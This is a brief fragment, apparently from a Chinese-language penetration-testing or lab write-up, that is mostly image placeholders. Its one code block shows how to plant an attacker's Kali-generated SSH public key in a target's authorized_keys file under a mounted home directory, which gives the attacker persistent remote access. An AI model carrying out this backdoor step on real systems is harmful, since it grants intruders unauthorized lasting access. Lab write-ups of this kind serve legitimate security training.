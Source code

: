 ![img](assets/1695035078914-06054b0f-40f9-498f-89a5-f1f4c12e8e7d.png)
将 ssh秘钥 写入到.ssh目录里面并将文件命名为authorized_keys (目标机.ssh目录权限为700)

```
cp -avx /cyshack/home/ubuntu/.ssh/id_rsa.pub /cyshack/home/ubuntu/.ssh/authorized_keys  // -avx 将权限也一起复制 echo > authorized_keys  //将内容清空 echo ‘kali生成的.pub内容’ > authorized_keys  //将ssh秘钥写入
```

![img](assets/1695035078964-8e7dadc8-ddf9-48a3-abcc-b7102e22b9e7.png)
![img](assets/1695035079540-5a4fd018-4bc3-4537-9c17-aa3520950854.png)
